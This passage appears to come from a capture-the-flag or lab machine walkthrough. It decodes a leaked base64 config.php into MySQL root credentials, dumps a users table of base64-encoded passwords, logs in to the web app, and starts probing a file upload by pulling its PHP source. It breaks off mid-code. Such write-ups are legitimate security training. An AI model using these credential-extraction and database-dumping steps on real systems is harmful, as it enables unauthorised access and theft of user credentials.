 Which gives the base64 output of `config.php` file on the web page:

```
# echo "PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRSl9IOTkiOw0KJGRhdGFiYXNlID0gIlVzZXJzIjsNCj8" | base64 -d
<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

Since we got the MySQL credentials, we connect to it as a next step:

```
# mysql -h 192.168.56.114 -u root -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 39
Server version: 5.5.47-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> use Users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
3 rows in set (0.006 sec)

MySQL [Users]> Ctrl-C -- exit!
Aborted

```

The user `kent` with password `JWzXuBJJNy` worked like a charm on the web page login form. Now let's move on to the upload. I tried some simple stuff like uploading a plain PHP script which did not work, tried faking both the content type and magic bytes but this did not execute our PHP script. To make the exploitation easier we download the `upload.php` source code the same way as `config.php`.

```
<?php
session_start();
if (!isset($_SESSION['user'])) { die('You must be log in.'); }
?>
<html>
	<body>
		<form action='' method='post' enctype='multipart/form-data'>
			<input type='file' name='file' id='file' />
			<input type='submit' name='submit' value='Upload'/>
		</form>
	</body>
</html>
<?php 
if(isset($_POST['submit'])) {
	if ($_FILES['file']['error'] <= 0) {
```